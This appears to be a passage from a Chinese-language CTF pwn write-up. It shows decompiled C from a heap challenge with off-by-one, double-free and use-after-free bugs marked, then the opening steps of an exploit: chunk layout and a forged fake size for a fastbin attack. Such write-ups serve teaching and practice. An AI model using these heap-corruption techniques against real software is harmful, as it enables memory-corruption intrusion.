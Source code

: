 ```c
if ( idx <= 0x13 ) {
    ptr = malloc(size);
    *(&size + 4) = ptr;
    heap_ptrs[idx] = ptr;
    sizes[idx] = size;
    result = *(&size + 4);
}
else {
    puts("Invalid index");
    result = 0LL;
}
return result;

// write_chunk()
// 存在 off by one
printf("\nEnter index of chunk :");
__isoc99_scanf("%d", &idx);
if ( idx > 0x13 )
    return puts("\nInvalid index");
if ( !heap_ptrs[idx] )
    return puts("Bad index");
size = sizes[idx];
printf("Enter data :", &idx);
return read(0, heap_ptrs[idx], size + 1);   // off by one

// free_chunk()
// 释放时未对 heap_ptr 进行检验，存在 Double Free
// 释放后未对 heap_ptr 清零，存在 UAF
printf("\nEnter index :");
__isoc99_scanf("%d", &idx);
if ( idx <= 0x13 )
free(heap_ptrs[idx]);
```

## 利用思路

先申请3个 chunk，chunk 大小分别是 0x20、0xd0、0x70，chunk_0 用来修改 chunk_1 大小，chunk_1 用来获取 main_arena，chunk_2 保护它们不被合并到 top_chunk。

```python
Malloc(0x18, 0)
Malloc(0xC8, 1)
Malloc(0x68, 2)
```

在 chunk_1 中伪造一个 chunk，作用是 fake size 用于后面的 fastbin attack。

```python
fake =  'A'*0x68
fake += p64(0x61)
Write(1, fake)
```
